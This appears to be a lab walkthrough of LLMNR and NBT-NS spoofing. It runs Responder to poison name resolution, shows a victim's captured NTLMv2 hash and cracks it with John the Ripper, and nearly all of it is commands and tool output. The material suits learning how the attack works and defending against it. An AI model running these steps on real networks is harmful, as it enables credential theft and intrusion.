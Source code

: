 ## Attack
LLMNR and NBT-NS Spoofing

## Procedure
- Start Capturing the traffic on the interface you are connected with the filter ```ip.addr == <Address of the victim>```.   
- Start responder on interface with sudo privileges.
  ```bash
  f4lc0n@klaw /g/Responder> sudo ./Responder.py -I eno1 -wrf
```
 - The output will be in a similar way.

````bash

.----.-----.-----.-----.-----.-----.--|  |.-----.----.
|   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
|__| |_____|_____|   __|_____|__|__|_____||_____|__|
|__|

NBT-NS, LLMNR & MDNS Responder 2.3

Author: Laurent Gaffie (laurent.gaffie@gmail.com)
To kill this script hit CRTL-C


[+] Poisoners:
LLMNR                      [ON]
NBT-NS                     [ON]
DNS/MDNS                   [ON]

[+] Servers:
HTTP server                [ON]
HTTPS server               [ON]
WPAD proxy                 [ON]
SMB server                 [ON]
Kerberos server            [ON]
SQL server                 [ON]
FTP server                 [ON]
IMAP server                [ON]
POP3 server                [ON]
SMTP server                [ON]
DNS server                 [ON]
LDAP server                [ON]

[+] HTTP Options:
Always serving EXE         [OFF]
Serving EXE                [OFF]
Serving HTML               [OFF]
Upstream Proxy             [OFF]

[+] Poisoning Options:
Analyze Mode               [OFF]
Force WPAD auth            [OFF]
Force Basic Auth           [OFF]
Force LM downgrade         [OFF]
Fingerprint hosts          [ON]

[+] Generic Options:
Responder NIC              [eno1]
Responder IP               [192.168.43.178]
Challenge set              [1122334455667788]

[+] Listening for events...
```

- Now start accessing a inaccessible server on the Victim Machine.

![VictimSS1](/images/VictimSS1)

- Now we can see that Responder captures this event.
```bash
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 192.168.43.178
[SMB] NTLMv2-SSP Username : win7\f4lc0n
[SMB] NTLMv2-SSP Hash     : f4lc0n::win7:1122334455667788:C70EFFD5915B4121E403760CC5C484CB:0101000000000000A89E44AB2F15D5013D9048CA1088913D0000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000100000000200000DA67F4AC3DE52B034E39D510C5B9053CDF0220D4DDD1DA9DC814C2571E50F29F0A0010000000000000000000000000000000000009001C0063006900660073002F006600690065006C00730068006100720065000000000000000000
[SMB] Requested Share     : \\FIELSHARE\IPC$
[*] Skipping previously captured hash for win7\f4lc0n
[SMB] Requested Share     : \\FIELSHARE\IPC$
``` 
- Responder successfully stole the password NTLM hash of the victim machine.
- Now use john for cracking the hash.
```bash
f4lc0n@klaw /g/Responder> john hash.txt
Warning: detected hash type "netntlmv2", but the string is also recognized as "ntlmv2-opencl"
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (f4lc0n)
1g 0:00:00:00 DONE 2/3 (2019-05-28 14:20) 2.439g/s 72214p/s 72214c/s 72214C/s 123456..MATT
Use the "--show" option to display all of the cracked passwords reliably
```
